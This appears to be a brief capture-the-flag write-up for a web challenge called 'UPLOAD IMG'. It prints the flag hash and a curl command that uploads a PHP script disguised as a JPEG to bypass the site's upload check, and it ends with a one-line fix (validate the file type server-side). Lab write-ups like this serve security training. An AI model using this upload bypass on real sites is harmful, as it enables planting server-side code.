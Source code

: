 # UPLOAD IMG

## The flag

```
THE FLAG IS : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## How to find it ?

On the page http://{IP_ADDRESS}/index.php?page=upload
Force to upload a script by doing a curl with a script and an image type
```
curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://{IP_ADDRESS}/index.php\?page=upload
```

## How to use it ?

Send a php script into the backend

## How to avoid it ?

Check the file type in back
